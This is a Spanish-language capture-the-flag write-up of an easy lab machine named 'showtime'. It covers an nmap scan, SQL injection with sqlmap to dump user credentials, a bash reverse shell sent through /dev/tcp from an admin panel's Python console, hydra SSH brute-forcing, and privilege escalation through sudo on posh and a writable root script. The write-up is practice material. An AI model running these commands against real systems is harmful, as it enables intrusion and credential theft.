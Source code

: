 # Máquina showtime

---

Dificultad -> Fácil

---

Empezamos con un nmap

```shell
nmap -p- --open -sV -sC -sS --min-rate=5000 -n -Pn 172.17.0.2
```

```shell
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 e1:9a:9f:b3:17:be:3d:2e:12:05:0f:a4:61:c3:b3:76 (ECDSA)
|_  256 69:8f:5c:4f:14:b0:4d:b6:b7:59:34:4d:b9:03:40:75 (ED25519)
80/tcp open  http    Apache httpd 2.4.58 ((Ubuntu))
|_http-title: cs
|_http-server-header: Apache/2.4.58 (Ubuntu)
MAC Address: 02:42:AC:11:00:02 (Unknown)
```

Encontramos los puertos 80 y 22 asi que entro desde el navegador y nos encontramos con lo que parece una página de apuestas

![](assets/2025-10-30-16-31-50-image.png)

Podemos ver un botón de login que nos lleva a una pagina para iniciar sesión

![](assets/2025-10-30-16-32-38-image.png)

Pruebo a ver si es vulnerable a sqlinjection poniendo una comilla simple de usuario y cualquier cosa de contraseña lo que da un error de sql por lo que es vulnerable

![](assets/2025-10-30-16-33-48-image.png)

Uso sqlmap para ver las bases de datos

```shell
sqlmap -u "http://172.17.0.2/login_page/index.php" --forms --batch -dbs
```

![](assets/2025-10-30-16-50-39-image.png)

Dumpeo la base de datos users 

```shell
sqlmap -u "http://172.17.0.2/login_page/index.php" --forms --batch -D users --dump
```

![](assets/2025-10-30-16-51-35-image.png)

Veo varias credenciales asi que las pruebo en la pagina de inicio de sesión.

![](assets/2025-10-30-16-52-46-image.png)

No consigo nada con lucas o santiago, pero con el usuario joe, me lleva a un panel de administración donde hay una consola que puedo poner comandos de python.

Desde aqui, me puedo mandar una reverse shell poniendo en la página

```shell
import os; os.system("bash -c 'bash -i >& /dev/tcp/172.17.0.1/4444 0>&1'")
```

Mientras que escucho en el puerto 4444 desde mi máquina

![](assets/2025-10-30-16-56-02-image.png)

Y estoy dentro, desde aquí hago [Tratamiento de la TTY](https://invertebr4do.github.io/tratamiento-de-tty/)

Intento escalar privilegios pero sudo -l me pide contraseña y find no me encuentra nada interesante asi que me pongo a buscar archivos en la máquina

![](assets/2025-10-30-17-01-08-image.png)

En /home encuentro los usuarios joe, luciano y ubuntu, intento hacerles bruteforce pero no consigo nada.

En /tmp encuentro un archivo oculto (.hidden_text.txt)

![](assets/2025-10-30-17-05-10-image.png)

Si lo miro lo que hay con cat, veo una larga lista de lo que dice ser sus trucos favoritos de GTA SA

![](assets/2025-10-30-17-06-16-image.png)

Me guardo la lista a un archivo en mi máquina y en otro archivo una lista con los 3 usuarios y hago un hydra con esto

```shell
hydra -L users.txt -P passwd.txt ssh://172.17.0.2 -t 64 -I
```

Hydra no me encuentra nada, como la lista de trucos esta toda en mayúscula pruebo a pasarla toda a minuscula

```shell
tr 'A-Z' 'a-z' < archivo.txt > archivo_minusculas.txt
```

Y vuelvo a intentar con hydra con el nuevo archivo

```shell
hydra -L users.txt -P passwd_lower.txt ssh://172.17.0.2 -t 64 -I
```

![](assets/2025-10-30-17-13-14-image.png)

Y ahora si, hydra me encuentra las credenciales de joe 

Una vez dentro como joe, veo que puedo escalar a luciano con el binario de posh

![](assets/2025-10-30-17-14-13-image.png)

Me meto a GTFOBins y escalo a luciano usando el siguiente comando

```shell
sudo -u luciano posh
```

Una vez como luciano, veo que puedo ejecutar un script de bash como root

![](assets/2025-10-30-17-15-58-image.png)

Veo que tengo permisos de escritura en el script asi que simplemente lo edito y pongo **`bash`** en el

```shell
echo 'bash' > /home/luciano/script.sh
```

Y al ejecutarlo con sudo acabo siendo root

![](assets/2025-10-30-17-18-12-image.png)
